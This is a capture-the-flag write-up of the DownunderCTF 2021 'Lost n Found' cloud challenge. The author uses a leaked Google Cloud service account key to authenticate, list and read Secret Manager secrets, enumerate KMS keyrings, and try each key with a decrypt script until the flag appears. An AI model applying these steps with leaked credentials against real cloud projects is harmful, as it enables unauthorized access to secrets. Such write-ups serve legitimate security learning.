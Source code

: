 ```yaml
---
title: 'DownunderCTF 2021: Lost n Found'
date: 2021-09-26T00:00:00+00:00
author: Kris
layout: post
image: /images/2021/ductf/lostnfoundtitle.png
categories:
  - Write-Ups
  - Cloud
---
```

DownunderCTF has become a big event in the yearly CTF calendar. Nice job all involved! It's also one of the only CTFs that is run in a cloud region geographically near me. Loved the super fast ping times to all the infrastructure. What a luxury! 

Having Google Cloud as a sponsor there were a few Cloud security related challenges in the CTF this year. Given some of what I do for a living is cloud security I gave them a go. This was the "hardest" one with fewer solves

#### <a name="lostnfound"></a>Lost n Found - Cloud - 430 points

This challenge reads:

```
Found this service account key after the results of a pen test but we
are running out of time and we are looking to increase the impact of
our finding. 

Can you get some results so we can maximise our bounty,
we know there is highly secretive material in their Cloud Project!
```

Along with the clue there's a JSON file:

```json
{
  "type": "service_account",
  "project_id": "ductf-lost-n-found",
  "private_key_id": "204a0a9969f97549e646f592d1732f5e478492d7",
  "private_key": "-----BEGIN PRIVATE KEY-----\n[redacted so github doesnt nuke this]\n-----END PRIVATE KEY-----\n",
  "client_email": "legacy-svc-account@ductf-lost-n-found.iam.gserviceaccount.com",
  "client_id": "103100904971904770440",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/legacy-svc-account%40ductf-lost-n-found.iam.gserviceaccount.com"
}

```

Fortunately the clue made a lot of sense to me right away. The **secretive** word in the clue was actually italicised so it was something that was supposed to draw attention.

First though I had to figure out what the JSON was. At first glimpse I knew but to be clear, this is a service account key that has been exported from a Google Cloud project. It relates to the following identity `legacy-svc-account@ductf-lost-n-found.iam.gserviceaccount.com`. This JSON file contains the following information:

- The GCP project the key exists within (`ductf-lost-n-found`)
- The Service Account principle (`legacy-svc-account@ductf-lost-n-found.iam.gserviceaccount.com`)
- The private key necessary to use as a credential to authenticate as that principle.

With this alone we are able to act as this service account using the Google Cloud APIs using any privileges that are bound on the IAM policy for that identity.

But what APIs are enabled in this project? One way to find out is to ask the GCP Resource Manager API. However this is not enabled on the project `ductf-lost-n-found`. Furthermore, our service account does not grant us the authority to enable APIs so we can't just turn it on ourselves.

I tried a few other enumeration techniques like figuring out what GCS buckets existed etc but none of the APIs were enabled. 

Then remembered the Secrets manager API and that seemed likely. I fired up my Google Cloud SDK docker container to keep things hermetic and seperate from my ordinary day to day cloud stuff and looked around.

I auth as the service account then set the project context I want to work within:

```shell
# docker run -it gcr.io/google.com/cloudsdktool/cloud-sdk:latest /bin/bash
$ gcloud auth activate-service-account legacy-svc-account@ductf-lost-n-found.iam.gserviceaccount.com --key-file=legacy.json
Activated service account credentials for: [legacy-svc-account@ductf-lost-n-found.iam.gserviceaccount.com]
$ gcloud config set project ductf-lost-n-found
Updated property [core/project].
```

Next I asked Secrets manager if it had any secrets lying around?

```shell
$ gcloud secrets list                                                                                    
NAME         CREATED              REPLICATION_POLICY  LOCATIONS
unused_data  2021-09-21T05:20:41  automatic           -

$ gcloud secrets describe unused_data                                                                    
createTime: '2021-09-21T05:20:41.876436Z'
etag: '"15cc7a8f10dbd4"'
name: projects/216026370280/secrets/unused_data
replication:
  automatic: {}
```

Cool! We see a secret named `unused_data`, lets grab it - was it this easy?

```shell
$ gcloud secrets versions access latest --secret="unused_data"                                           
CiQA+H4IQ1Jq5yU+Ta7XvpOhnpYLiRYXxem6jVTzdqKxGaczATsSZgCa9lYSABC+4ve1pQuvy80nJi/pWv5hntGiPOiO7CQoC/Iqw1XOCgDBdmYEi9ynYb/qykTRDZiyGaheHSReUf0ZNr/hUjPrIXq2VCGSMtF1RFVt73Rp1i3/baMJxLOSmCN3cbT0xQ==
```

Huh.. Decoding the base64 its a binary data blob with no structure. It honest looks encrypted so I got stuck for a while.

After going out for some lunch it occured to me that of course Cloud services don't only store secrets for you, they also do Key management. So I dug up the documentation on GCP Key Management Service. Eventually I found this:

```shell
$ gcloud kms keyrings list --location australia-southeast2
NAME
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks
```

Woo! A keyring, whats inside?

```shell
gcloud kms keys list --keyring projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks
NAME                                                                                                         PURPOSE          ALGORITHM                    PROTECTION_LEVEL  LABELS  PRIMARY_ID  PRIMARY_STATE
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-big-key       ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-bronze-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-diamond-key   ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-fat-key       ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-filthy-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-golden-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-jail-key      ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-key-key       ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-northern-key  ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-secret-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-silver-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-small-key     ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-smart-key     ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/ductf-lost-n-found/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/an-iron-key     ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
```

Oh a tonne of keys!

Well only one way to find out, I attempted to decrypt my data with all the keys :)

I made a shell script called `trykey.sh` with this in it:

```shell
#!/bin/bash
gcloud kms decrypt \
--key=$1 \
--keyring=wardens-locks \
--location=australia-southeast2 \
--ciphertext-file=ciphertext \
--plaintext-file=flag.txt 2> /dev/null

cat flag.txt 2>/dev/null
```

Then I stored the ciphertext locally and tried every key:

```shell
$ gcloud secrets versions access latest --secret="unused_data" | base64 -d > ciphertext
$ chmod +x trykey.sh
$ ./trykey.sh a-big-key
$ ./trykey.sh a-bronze-key
$ ./trykey.sh a-diamond-key
$ ./trykey.sh a-fat-key
$ ./trykey.sh a-filthy-key
$ ./trykey.sh a-golden-key
$ ./trykey.sh a-jail-key
$ ./trykey.sh a-key-key
$ ./trykey.sh a-northern-key
$ ./trykey.sh a-secret-key
$ ./trykey.sh a-silver-key
DUCTF{its_time_to_clean_up_your_service_account_permissions!}
```

Woot there it is! Nice one :D

